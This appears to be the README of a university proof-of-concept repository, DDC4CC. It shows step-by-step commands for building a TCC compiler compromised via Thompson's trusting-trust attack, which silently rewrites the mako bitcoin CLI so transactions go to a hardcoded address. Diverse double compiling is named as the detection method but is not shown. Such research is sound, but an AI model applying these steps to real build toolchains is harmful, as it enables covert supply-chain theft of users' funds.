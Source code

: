 # DDC4CC
## PoC for diverse-double compiling for cryptocurrency

## What is it?
The purpose of this repository is to provide a proof-of-concept for the trusting trust attack against a cryptocurrency application. It also includes a method to detect to attack by use of diverse-double-compiling. The goal has been to make the example self-contained and as easy as possible.  

## Why did you do this?  
I (Niklas Rosencrantz) chose this project for my degree project at the university.  

## How does it work?  
A C compiler (TCC) is c ompromised to replace code of itself, when compiling itself, and similarly will replace code of a cryptocurrency application when compiling that, according to the trusting trust attack as originally described by Ken Thompson. 

## How do I run it myself?
Easiest way is using Docker. First start an Ubuntu container. It will only work with Linux (Ubuntu). 

```
docker run -it ubuntu bash
```
Then, inside the container, install TCC from sources.  It requires the 0.9.27 version of the TCC compiler. That TCC can be installed as follows.  
```
cd /tmp
apt update -y; apt install -y make gcc git bzip2 wget libtool m4 automake sudo
wget https://launchpad.net/ubuntu/+archive/primary/+sourcefiles/tcc/0.9.27+git20200814.62c30a4a-1/tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
tar -xjvf tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
./configure --cc=gcc
make
make install
```
Now TCC 0.9.27 should be installed and fine. 
```
# tcc -v
tcc version 0.9.27 (AArch64 Linux)
```
Then download and install mako (the cryptocurrency app) and save its sha1 checksum.  
```
git clone https://github.com/chjj/mako.git
cd mako
chmod +x autogen.sh
./autogen.sh
./configure CC=tcc
make
sha1sum mako > /tmp/mako.sha1
sudo make install
```
Now we have created a reference build of the cryptocurrency application using a trustworthy toolchain.  
The resulting applications (`./makod`` (the BTC node) and `./mako` (the CLI)) behave as expected and as intended. 
The BTC node `./makod`` can be started and the CLI `./mako` can be used to send and receive cryptocurrency transactions on the bitcoin testnet and the production bitcoin blockchain. The documentation for this project is available from its repository https://github.com/chjj/mako. 

For example, the following invocation will send ` 0.00010001` bitcoins on the testnet from the account named "testaccount" to the address `tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx`.

```
./mako -testnet -rpcuser=123456 -rpcpassword=123456 sendfrom "testaccount" tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx 0.00010001
```

Now, clone the DDC4CC repository and create the compromised version of mako. At the end, save its sha1 checksum.  
```
git clone https://github.com/montao/DDC4CC/
sudo mkdir -p /tmp/tcc-vuln/target-mako 
cd DDC4CC
cp compromise.sh /tmp/tcc-vuln/target-mako
cp attack_template.c /tmp/tcc-vuln/target-mako
cp generate-attack-array.c /tmp/tcc-vuln/target-mako
cd /tmp/tcc-vuln/target-mako
gcc -o generate-attack-array generate-attack-array.c
git clone https://github.com/montao/tinycc
mv tinycc/* .
./configure
chmod +x compromise.sh
./compromise.sh
cd /tmp
mkdir tcctmp
cd tcctmp
wget https://launchpad.net/ubuntu/+archive/primary/+sourcefiles/tcc/0.9.27+git20200814.62c30a4a-1/tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
tar -xjvf tcc_0.9.27+git20200814.62c30a4a.orig.tar.bz2
./configure --cc=tcc
make clean
make 
sudo make install
rm -rf /tmp/makotmp
mkdir /tmp/makotmp
cd /tmp/makotmp
git clone https://github.com/chjj/mako.git
cd mako
./autogen.sh
./configure CC=tcc
make clean
make
sha1sum mako > /tmp/compromised.sha1
```
The two checksums are, as expected, different even though both were compiled with TCC 0.9.27. The cause for the difference is that the second TCC 0.9.27 was compromised by its parent compiler.  

What happened was that the CLI was compromised from the compiler: The compiler replaced important parts of the source code. Even though the compiler was fetched from uncompromised and official sources, the compiler itself was compromised from the compiler that compiled the compiler. 

The resulting CLI (./mako` (the CLI)) will send cryptocurrency to the wrong receiver when using the RPC invocation . 
The same BTC node `./makod`` as from the safe version of the project can be used, and when connecting to it from the compromised CLI, the transaction is stolen with a debug message about what happened, e.g. the exact same usage as before, will result in the transaction going to a hardcoded address.

```
./mako -testnet -rpcuser=123456 -rpcpassword=123456 sendfrom "testaccount" tb1q6n2ngxml7az8r3l7sny4af0gr9ymgygk9ztrzx 0.00010001
```



